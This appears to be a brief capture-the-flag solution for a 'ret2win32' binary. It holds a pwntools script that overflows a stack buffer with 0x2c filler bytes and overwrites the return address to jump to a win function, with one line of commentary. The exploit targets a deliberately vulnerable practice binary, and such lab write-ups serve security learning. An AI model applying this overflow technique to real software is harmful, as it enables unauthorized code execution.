

this is pretty basic, just overwrite the return address and its basically over 

```
#!/usr/bin/python3
from pwn import *

context.arch="amd64"
context.os="linux"
context.log_level="debug"

script='''
b *ret2win
'''

# p=gdb.debug("./ret2win32", cwd=".", gdbscript=script)
p=process("./ret2win32", cwd=".")

buffer=0x2c*b"A"
payload=buffer+b"\x2c\x86"
p.recvuntil(">")
p.send(payload)

p.interactive()
```